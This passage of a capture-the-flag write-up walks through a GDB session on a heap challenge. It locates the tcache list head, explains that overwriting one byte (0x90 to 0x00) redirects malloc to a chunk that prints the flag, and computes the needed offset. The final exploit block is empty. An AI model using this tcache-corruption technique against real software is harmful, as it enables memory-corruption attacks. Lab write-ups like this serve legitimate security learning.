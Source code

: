 ```
0x603828:       ""
0x603829:       ""
0x60382a:       ""
0x60382b:       ""
0x60382c:       ""
0x60382d:       ""
0x60382e:       ""
0x60382f:       ""
gef➤  x/20s 0x603890
0x603890:       ""
0x603891:       "8`"
0x603894:       ""
0x603895:       ""
0x603896:       ""
0x603897:       ""
0x603898:       "his won't help you: this is a random string."
0x6038c5:       ""
0x6038c6:       ""
0x6038c7:       ""
0x6038c8:       ""
0x6038c9:       ""
0x6038ca:       ""
0x6038cb:       ""
0x6038cc:       ""
0x6038cd:       ""
0x6038ce:       ""
0x6038cf:       ""
0x6038d0:       ""
0x6038d1:       ""
```
Bingo. We know the tcache is a simple linked list and 0x603890 is the first entry. Let's find the entry in the heap.
```console
gef➤  find 0x602000, 0x623000, 0x603890
0x602088
warning: Unable to access 7029 bytes of target memory at 0x62148c, halting search.
1 pattern found.
gef➤  x/16gx 0x602088
0x602088:       0x0000000000603890      0x0000000000000000
0x602098:       0x0000000000000000      0x0000000000000000
0x6020a8:       0x0000000000000000      0x0000000000000000
0x6020b8:       0x0000000000000000      0x0000000000000000
0x6020c8:       0x0000000000000000      0x0000000000000000
0x6020d8:       0x0000000000000000      0x0000000000000000
0x6020e8:       0x0000000000000000      0x0000000000000000
0x6020f8:       0x0000000000000000      0x0000000000000000
```
The byte we need to modify is at `0x602088`. Change it from `0x90` to `0x00` and the first tcache entry pulled by the last `malloc` will be `0x603800`, which will print the flag. To get the offset, we need the address of the first congrats string. Place a breakpoint at the location in the code where it's `malloc`'d and we're golden.
```console
gef➤  b *(main+188)
Breakpoint 2 at 0x4008c3
gef➤  r
Starting program: /home/ryan/ctf/heapedit 
...
gef➤  p $rax
$5 = 0x6034a0
gef➤  p/d 0x602088-0x6034a0
$6 = -5144
```
Let's try it out!
```console
```